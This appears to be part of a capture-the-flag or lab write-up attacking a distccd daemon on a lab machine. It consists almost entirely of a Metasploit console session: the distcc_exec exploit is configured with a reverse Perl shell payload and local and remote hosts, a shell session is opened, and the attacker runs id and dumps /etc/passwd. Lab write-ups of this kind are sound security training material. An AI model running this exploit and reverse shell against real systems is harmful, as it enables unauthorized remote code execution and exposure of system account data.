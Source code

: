 
## [3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))]
Distributed Compiler Daemon

````
# msfconsole
msf5 > search distccd

Matching Modules
================
   Name                           Disclosure Date  Rank       Check  Description
   ----                           ---------------  ----       -----  -----------
   exploit/unix/misc/distcc_exec  2002-02-01       excellent  Yes    DistCC Daemon Command Execution

msf5 > use exploit/unix/misc/distcc_exec 
msf5 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf5 exploit(unix/misc/distcc_exec) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf5 exploit(unix/misc/distcc_exec) > set LHOST 10.10.14.4
LHOST => 10.10.14.4
msf5 exploit(unix/misc/distcc_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.4:4444 
[*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:32856) at 2019-02-15 10:07:51 +0100

pwd
/tmp
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
````
